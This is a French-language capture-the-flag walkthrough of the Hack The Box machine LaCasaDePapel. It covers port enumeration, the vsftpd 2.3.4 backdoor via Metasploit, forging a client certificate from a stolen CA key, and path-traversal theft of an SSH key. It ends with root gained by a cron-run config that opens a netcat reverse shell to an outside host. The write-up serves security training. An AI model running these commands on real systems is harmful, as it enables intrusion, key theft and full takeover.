 ![Pic1](../img/casapapel1.PNG?raw=true) </br>

# Introduction
Lacasadepapel est une machine linux dont l'adresse IP est 10.10.10.131.</br>
Compétences mises en oeuvre :
* Enumération des ports et services d'une machine distante.
* Enumération des fichiers et dossiers d'un site web.
* Recherche et execution d'un exploit.
* Création d'un certificat signé par la box.
* Exploitation d'une LFI
* Elevation de privilège via un fichier exécuté par une tache cron.
</br>

# Enumération initiale
Nous commencons par l'énumération des ports et services de la box avec nmap :
```bash
 $ nmap -T4 -A 10.10.10.131
```
![Pic2](../img/casapapel2.PNG?raw=true) </br>
Plusieurs ports ouverts, nous allons faire une énumération des fichiers et dossiers du site web avec disearch :
```bash
$ dirsearch.py -w wordlist -e 'php,txt' -f -t 100 -x 400,404,403,500 -u http://10.10.10.153/
```
Aucun dossiers/fichiers trouvés.

# Obtenir un accès utilisateur
Le port http nous conduit sur une page avec un QRCode qui servira pour l'authentification. Sur le port 443, nous avons une erreur de certificat, donc il y a peut être un certificat à récupérer quelque part.</br>
Sur le port 21, le service FTP tourne avec un vsftpd en version 2.3.4, c'est une version qui contient des vulnérabilités :
```bash
$ searchsploit vsftpd 2.3
```
![Pic4](../img/casapapel4.PNG?raw=true) </br>
La back a l'air sympa, nous allons l'utiliser :
```bash
$ msfconsole
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf > set RHOST 10.10.10.131
msf > run
```
![Pic5](../img/casapapel5.PNG?raw=true) </br>
Cela ne fonctionne pas comme prévu, l'exploit est bon mais pas de retour, si l'on creuse un petit peu, l'exploit 
essaye de se connecter sur le port 6200 de la machine, nous allons essayer par nous même la manipulation :
```bash
$ telnet 10.10.10.131 6200
```
![Pic6](../img/casapapel6.PNG?raw=true) </br>
Bingo, nous avons un accès, et une variable $tokyo en supplément, regardons de plus près son utilité :
```bash
telnet > show $tokyo
```
![Pic7](../img/casapapel7.PNG?raw=true) </br>
En lisant, la fonction créer un certificat (de l'utilisateur nairobi) signé. Nous avons le chemin du certificat, nous allons essayer de lire le cert de nairobi et l'enregistrer en local en nairobi.ca.key :
```bash
telnet > file_get_contents('/home/nairobi/ca.key');
```
![Pic8](../img/casapapel8.PNG?raw=true) </br>
Maintenant, nous allons prendre la clé sur site web https (je ne montrerai pas les manip) pour créer notre clé client :
```bash
$ openssl genrsa -out client.key 4096
$ openssl req -new -key client.key -out client.csr
$ openssl x509 -req -in client.csr -CA ca.cert -CAkey nairobi.ca.key -set_serial 9001 -extensions client -days 365 -outform PEM -out client.cer
$ openssl pkcs12 -export -inkey client.key -in client.cer -out client.p12
```
</br>
Maintenant il nous faut simplement importer dans le navigateur notre client.p12 en certificat et en authorité le ca.cert.</br>
![Pic9](../img/casapapel9.PNG?raw=true) </br>
Nous avons bien accès, la season 1 et 2 nous renvoi juste des videos avi, après investigation, ces videos n'ont rien données.
De retour sur le site, on peut voir que les liens des vidéos sont étranges, après investigation, nous pouvons les décoder :
```bash
$ echo "U0VBU09OLTEvMDEuYXZp" |base64 -d
```
![Pic10](../img/casapapel10.PNG?raw=true) </br>
Nous pouvons alors tenter un chemin basique :</br>
![Pic11](../img/casapapel11.PNG?raw=true) </br>
Parfait, nous pouvons alors avoir la liste des utilisateurs :</br>
![Pic12](../img/casapapel12.PNG?raw=true) </br>
Mais si nous revenons dans le ../, nous pouvons prendre le fichier id_rsa avec de l'encodage base64 :</br>
![Pic13](../img/casapapel13.PNG?raw=true) </br>
Maintenant nous pouvons tester la clé avec différents utilisateurs pour se connecter :
```bash
$ chmod 600 id_rsa
$ ssh professor@10.10.10.131 -i id_rsa
```
![Pic14](../img/casapapel14.PNG?raw=true) </br>
Le user.txt est dans le /home/ de Berlin, nous pouvons le récupérer avec l'encodage base64 comme l'id_rsa :</br>
![Pic15](../img/casapapel15.PNG?raw=true) </br>
![Pic16](../img/casapapel16.PNG?raw=true) </br>

# Obtenir un accès root 
Dans le /home/ du user professor, il y a deux fichier : memcached.ini et memcached.js. Nous pouvons seulement lire le memcached.ini :
```bash
$ cat memcached.ini
```
![Pic17](../img/casapapel17.PNG?raw=true) </br>
Nous ne pouvons pas écrire dedans, mais on peut le supprimer et le remplacer par le notre :
```bash
$ rm memcached.ini
$ echo -e "[program:memecached]\ncommand = sudo -u root /usr/bin/nc 10.10.14.9 4567 -e /bin/bash" > memcached.ini
```
On reçoit une connexion nc et pouvons lire le root.txt :</br>
![Pic18](../img/casapapel18.PNG?raw=true) </br>


